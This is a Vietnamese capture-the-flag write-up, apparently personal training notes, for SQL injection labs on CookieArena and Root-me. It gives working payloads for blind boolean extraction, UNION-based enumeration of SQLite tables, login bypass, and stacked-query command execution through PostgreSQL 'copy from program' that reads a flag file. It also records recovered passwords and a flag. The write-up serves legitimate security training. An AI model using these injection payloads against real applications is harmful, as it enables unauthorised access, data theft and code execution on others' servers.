


# Task 3.2

Text: - Làm thêm 3 lab:
https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rcehttps://battle.cookiearena.org/challenges/web/simple-blind-sql-injectionhttps://battle.cookiearena.org/challenges/web/blind-logger-middleware

## I. Cookie arena

1. **Simple Blind SQL Injection** 

<aside>
💡

Exploit blind sqli to get admin password, then login at "/login" to get flag. Password contains [a-z0-9_] and the column is `upw`

</aside>

nhập `admin`  trang hiện **User admin exists** 

nhập bừa user khác thì trang hiện user not found?

⇒ conditional respones

nếu nhập câu lệnh lỗi thì sẽ báo như sau 

⇒ csdl là sqlite

thử `admin' and 1=1--` ra đúng

`admin' and 1=2--`  ra sai

Đề bài gợi í password ở cột upw nên ta brute force bằng burp intruder

`admin' and substr(upw,1,1)='a'--` 

ta tìm được password gồm 13 ký tự là `y0u_4r3_4dm1n`

1. **Baby SQL Injection to RCE**

Thử nhập `' or 1=1--`  kết quả ra đúng 

và nhập `' or 1=2--`  thì kết quả ra sai 

⇒ boolean base dạng conditional respones

Ta cần đọc file flagXXXX.txt nên ta cần tìm tên file, ta sẽ tạo một bảng mới và copy các tên file rồi đưa vào bảng mới tạo

lệnh tạo bảng mới `'; create table gtqm( poo text);--` bảng tên tab có cột col dạng text

lệnh copy các file hệ thống vào bảng `'; copy gtqm from program 'ls / -m'--`   list các tên file từ / (root) với tham số -m là đưa thành 1 dòng

brute force từng chữ `' OR (SELECT SUBSTRING(poo,1,1) FROM gtqm LIMIT 1) = 'a'--` 

tên file flag nằm ở vị trí gần cuối cùng và tìm được tên file là flagig13K.txt

tiếp theo lại tạo một bảng mới để đưa nội dung của file flagig13K.txt 

lệnh tạo bảng mới `'; create table ptp(mai text);--`

đưa nội dung file vào bảng ptp mới tạo `'; copy ptp from program 'cat /flagig13K.txt';--`

Brute force từng ký tự để tìm flag `' or (select substring(mai,1,1) from ptp limit 1)='a'--`

ra được flag là CHH{5QLI_rCe_U5iN6_St4cK_Qu3RY_1fa2c08bddf044a205a403594cff63bd}
3. **Blind Logger Middleware**

## II. Root-me

1. **SQL injection - Authentication**

thử câu lệnh sql lỗi `' and 1/0` 

ta thấy csdl là SQLite

thử nhập vào ô login là `admin'--` 

web hiện thông tin bị che, mở mã nguồn HTML để kiểm tra

tìm được password là t0_W34k!$

1. **SQL injection - String**

nhập một chuỗi gây lỗi `'abc`

⇒ csld là QLIite

kiểm tra số cột bằng `' order by 2--`  

tới `' order by 3--`  thì lỗi ⇒ có 2 cột

thử `' union select 'a', 'a'--` thì ra cả 2 cột đều là string

tìm các bảng bằng `' union select name, null from sqlite_master where type='table'` 

tìm được bảng là users, tìm các cột của bảng users bằng `' union select sql, null from sqlite_master where type='table' and name='users'--`

ta thấy bảng users có 2 cột là username và password

nhập `' union select username, password from users--` 

ta tìm được password của admin